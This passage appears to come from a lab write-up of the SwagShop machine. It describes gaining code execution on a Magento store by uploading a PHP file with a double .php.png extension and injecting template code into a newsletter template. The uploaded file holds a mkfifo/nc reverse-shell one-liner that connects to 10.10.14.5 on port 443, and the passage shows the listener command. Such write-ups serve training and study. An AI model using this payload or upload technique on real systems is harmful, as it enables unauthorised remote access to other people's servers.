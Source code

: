 I read **more carefully** the article I found on the web and found the step I'm missing to get an **RCE**, so I'm going to restart the attack. I modify the malicious file to directly upload one, whose content is a one-liner of a **Reverse Shell** from the **[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** web site, but when hovering over the link of the new uploaded file I notice that the double extension has been modified (because there was already a file on the server with the same name), so I'm going to upload it again but with another name. The last step is to modify the **Template** that I had created in previous steps and I inject a **block of template code** (also make sure that the **declaration is correct**, because I made a mistake in the first attempt). Finally I get an **RCE** by previewing the Template and succeed in catching the incoming **Reverse Shell** with `nc` on port **443**.

> **Attacker Machine**:

```bash
nvim pwn3d.php.png
```

> **pwn3d.php.png**:

```php
<?php
  system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 443 >/tmp/f");
?>
```

```bash
nc -nlvp 443
# http://swagshop.htb/index.php/admin/newsletter_template/index/key/880df9d219609c129c7cc2fc0ab3a034/
```

> **Victime Machine**:

```cmd
whoami
hostname
hostname -I
```

<br/>
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
